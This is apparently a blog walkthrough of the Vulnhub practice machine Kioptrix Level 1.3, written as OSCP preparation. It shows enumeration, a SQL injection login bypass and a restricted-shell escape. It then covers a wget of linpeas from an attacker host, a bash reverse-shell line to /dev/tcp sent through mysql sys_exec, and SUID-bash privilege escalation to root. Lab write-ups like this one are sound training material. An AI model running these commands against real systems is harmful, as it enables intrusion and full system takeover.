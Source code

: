 ```yaml
---
layout: post
title: " Kioptrix - Level 1.3"
date: 2020-08-11
ctf: true
excerpt: "Walkthrough for Kioptrix Level 1.3 on Vulnhub"
tags: [OSCP, SQL injection, mysql, privilege escalation]
comments: false
---
```

[Kioptrix]( https://www.vulnhub.com/entry/kioptrix-level-13-4,25) Level 1.3 is a vulnerable machine found on the [NetSecFocus Trophy Room](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) list which I have been using as preparation for the OSCP. Below is a walkthrough to compromise this machine.

First, after downloading and importing the machine into VMware, I had to figure out the IP address of the machine. I used **netdiscover -i eth0** until I came across the IP of this machine.

![Kioptrix Level 1.3 netdiscover](/assets/img/KioptrixLevel41.png)

Let's run **threader3000** to enumerate the open ports on this box.

![Kioptrix Level 1.3 threader3000](/assets/img/KioptrixLevel42.png)

Let's run the suggested nmap scan and see what results we get.

![Kioptrix Level 1.3 nmap](/assets/img/KioptrixLevel43.png)

It appears that we have SSH, HTTP and SMB open. Let's connect with rpcclient by running **rpcclient -H [machine IP] -U "" ** to see if anonymous user access is allowed.

![Kioptrix Level 1.3 rpcclient anonymous](/assets/img/KioptrixLevel44.png)

Success! let's run **enumdomusers** to enumerate the users.

![Kioptrix Level 1.3 enumdomusers rpcclient](/assets/img/KioptrixLevel45.png)

I also ran **queryuser** on all the users above, but there was nothing listed in the comments that could be valuable. Next, I decided to take a look at the website.

![Kioptrix Level 1.3 website](/assets/img/KioptrixLevel46.png)

The website asks for login credentials. The two most likely methods of attack are either brute forcing credentials with something like hydra, or with SQL injection. I decided to try some basic SQL injection techniques in the password field first with the three users we uncovered (robert, john, loneferret). After some trial and error, I uncovered that utilizing **' OR 1 =1 -- -** in the password field worked and bypassed authentication for john and robert.

![Kioptrix Level 1.3 john credentials](/assets/img/KioptrixLevel47.png)

![Kioptrix Level 1.3 robert credentials](/assets/img/KioptrixLevel48.png)

We now had a username and password for **john** and **robert**. I tried to ssh as both of them and was able to get in (even though robert's looks like a base64 encoded password, it is not and works as shown above). For both john and robert, they login with a restricted shell as shown below. Running help shows a minimal amount of commands that can be run from this restricted shell.

![Kioptrix Level 1.3 john restricted shell](/assets/img/KioptrixLevel49.png)

Fortunately, we can use echo to our advantage and break out of the shell with **echo os.system('/bin/bash')**.

![Kioptrix Level 1.3 break out of restricted shell](/assets/img/KioptrixLevel410.png)

Success! We have broken out of the restricted shell. I ran **sudo -l** and neither john or robert could run sudo.

![Kioptrix Level 1.3 john sudo -l](/assets/img/KioptrixLevel411.png)

![Kioptrix Level 1.3 robert sudo -l](/assets/img/KioptrixLevel412.png)

Let's do some enumeration and see what we can find, first let's run **cd /tmp** to navigate to the tmp directory which is usually writeable by all.

![Kioptrix Level 1.3 cd /tmp](/assets/img/KioptrixLevel413.png)

Next, on my attacker pc, I hosted a python3 HTTP server from a directory where I had linpeas available.

![Kioptrix Level 1.3 python3 http server](/assets/img/KioptrixLevel414.png)

From the victim PC, run **wget http://[attacker ip]:8000/linpeas.sh** to save linpeas.sh to the /tmp directory. Next, run **chmod +x linpeas.sh** to make it executable

![Kioptrix Level 1.3 wget](/assets/img/KioptrixLevel415.png)

Next, I ran **./linpeas.sh** to enumerate the system. A couple of interesting things showed up related to mysql.

![Kioptrix Level 1.3 linpeas.sh](/assets/img/KioptrixLevel416.png)

It appears that mysql can be logged into as root without a password and you can execute system commands from it. Let's login to mysql with **mysql -U root -N**.

![Kioptrix Level 1.3 mysql root login](/assets/img/KioptrixLevel417.png)

I first ran **show databases;** and then ran **use members;** to select the members database followed by **show tables;** . Next, I ran **select * from members;** to enumerate the data in the table. This only provided us with the login credentials we already had for john and robert.

![Kioptrix Level 1.3 enumerate members database](/assets/img/KioptrixLevel418.png)

Next, I went back to what linpeas mentioned, which is that you can execute commands. The method mentioned did not work, so I did some research and came across [this article](https://recipeforroot.com/mysql-to-system-root/). It mentions **mysqludf_sys.so**, which is mentioned in the linpeas results above. Let's attempt the rest of the commands and see what happens. First, let's run **use mysql;** to select that database.

![Kioptrix Level 1.3 use mysql](/assets/img/KioptrixLevel419.png)

Next, on our attacker PC, let's run **nc -nvlp 4444**

![Kioptrix Level 1.3 nc reverse listener](/assets/img/KioptrixLevel420.png)

Next, let's **select sys_exec('bash -i >& /dev/tcp/[attacker ip]/4444 0>&1');**. Unfortunately, this did not work.

![Kioptrix Level 1.3 reverse shell failure](/assets/img/KioptrixLevel421.png)

Let's see if we can make the bash executable a SUID with **select sys_exec('chmod +s /bin/bash');**

![Kioptrix Level 1.3 chmod /bin/bash](/assets/img/KioptrixLevel422.png)

This appears to have worked, let's quit mysql and run **cd /bin** followed by **ls -al**. You will see that **bash** is now a SUID.

![Kioptrix Level 1.3](/assets/img/KioptrixLevel423.png)

Since this is an old version of bash, we can run **bash -p**, which runs it in privileged mode utilizing the SUID user, which is root.

![Kioptrix Level 1.3 root shell](/assets/img/KioptrixLevel424.png)

Next, let's navigate run **cd /root** and **ls -al** to list directory contents for the root user. There is a file named congrats.txt. Let's run **cat congrats.txt** to list the contents of this file.

![Kioptrix Level 1.3 congrats.txt](/assets/img/KioptrixLevel425.png)

And we're all set!
